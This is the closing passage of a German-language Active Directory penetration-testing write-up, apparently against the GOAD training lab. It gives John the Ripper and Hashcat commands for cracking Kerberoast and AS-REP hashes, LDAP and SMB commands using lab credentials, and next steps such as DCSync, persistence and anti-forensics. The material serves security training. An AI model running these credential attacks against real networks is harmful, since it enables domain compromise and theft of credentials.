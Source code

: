 #### Hash-Cracking
```bash
# John the Ripper
john --wordlist=rockyou.txt hashes.txt

# Hashcat
hashcat -m 13100 hashes.txt rockyou.txt  # Kerberos TGS
hashcat -m 18200 hashes.txt rockyou.txt  # AS-REP
```

### Häufige Probleme & Lösungen

#### "Clock skew too great" Fehler
```bash
# Zeitabweichung zwischen Attacker und DC korrigieren
sudo ntpdate -s 192.168.20.10
# Oder
sudo timedatectl set-ntp true
```

#### LDAP-Verbindungsfehler
```bash
# Alternative LDAP-Syntax versuchen
ldapsearch -x -H ldap://192.168.20.11:389 -D "jon.snow@north.sevenkingdoms.local" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local"
```

#### SMB-Authentifizierungsfehler
```bash
# Alternative SMB-Authentifizierung
smbclient //192.168.20.11/NETLOGON -U "north.sevenkingdoms.local\jon.snow%iknownothing"
```

### Nächste Schritte

1. **BloodHound-Analyse** für optimale Attack Paths
2. **SQL Server-Exploitation** für zusätzliche Credentials
3. **Cross-Domain Trust-Analyse** für Forest-weite Kompromittierung
4. **Advanced Persistence** via GPO/Services/Registry
5. **Anti-Forensics** und Stealth-Techniken

---

**Cyber Kill Chain Status:**
- ✅ Reconnaissance - Abgeschlossen
- ✅ Weaponization - Tools bereit
- ✅ Delivery - Erfolgreiche Exploitation
- ✅ Exploitation - Credentials kompromittiert
- ✅ Installation - Initial Access etabliert
- 🔄 Command & Control - In Arbeit
- ❌ Actions on Objectives - Ausstehend

**Nächste Priorität:** DCSync für vollständige Domain-Kompromittierung